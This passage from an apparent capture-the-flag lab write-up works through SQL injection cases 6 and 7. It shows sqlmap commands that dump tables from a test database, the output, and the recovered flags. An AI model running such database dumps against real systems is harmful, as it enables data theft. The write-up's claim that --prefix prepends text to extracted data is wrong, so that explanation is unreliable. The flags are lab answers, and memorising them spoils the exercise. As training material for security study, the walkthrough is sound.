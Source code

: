 
Do the same as before, we can do the following command:

```
python3 sqlmap.py -r case6.txt --batch --dump -T flag6 -D testdb --no-cast --level=5 --risk=3 --prefix='`)'
```

The `-prefix` flag allows us to specify a prefix to prepend to the extracted data.

We get the following output:

```
Database: testdb
Table: flag6
[1 entry]
+----+----------------------------------+
| id | content                          |
+----+----------------------------------+
| 1  | HTB{v1nc3_mcm4h0n_15_4570n15h3d} |
+----+----------------------------------+
```

Flag is `HTB{v1nc3_mcm4h0n_15_4570n15h3d}`

## Case 7
---

![Pasted image 20250204162749.png](../../../../IMAGES/Pasted%20image%2020250204162749.png)

For case 7, we do the following:

```
python3 sqlmap.py -r case7.txt --batch --dump -T flag7 -D testdb --no-cast --level=5 --risk=3 --union-cols=5 --dbms=MySQL
```

Since this case is about UNION SQLI, we need to use the `--union-cols` flag to specify the number of columns to be used during the SQLI, if we set this flag to 5, we are telling sqlmap that the vulnerable query returns 5 columns.

We get the following:

```
atabase: testdb
Table: flag7
[1 entry]
+----+-----------------------+
| id | content               |
+----+-----------------------+
| 1  | HTB{un173_7h3_un173d} |
+----+-----------------------+
```

Flag is `HTB{un173_7h3_un173d}`
